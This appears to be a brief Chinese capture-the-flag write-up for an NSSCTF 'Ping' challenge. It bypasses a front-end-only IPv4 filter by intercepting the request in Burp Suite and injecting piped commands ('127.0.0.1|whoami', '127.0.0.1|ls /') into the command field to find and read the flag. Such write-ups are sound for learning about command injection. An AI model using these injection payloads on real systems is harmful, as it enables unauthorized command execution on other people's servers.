






# nssctf Ping wp

题目给了一个 ping 的框。通过正则过滤了只能输入 ipv4 地址：  



进 burpsuite ，输入任意 ip 地址后抓包。



丢给 Repeater ，加上 | whoami 看看:
``` bash
command=127.0.0.1|whoami&ping=Ping
```




上面也可以看到用 js 正则过滤的信息，也就是前端限制。  



改成：
``` bash
command=127.0.0.1|ls /&ping=Ping
```


发现 /flag 那还说啥？  



拿到 flag。  

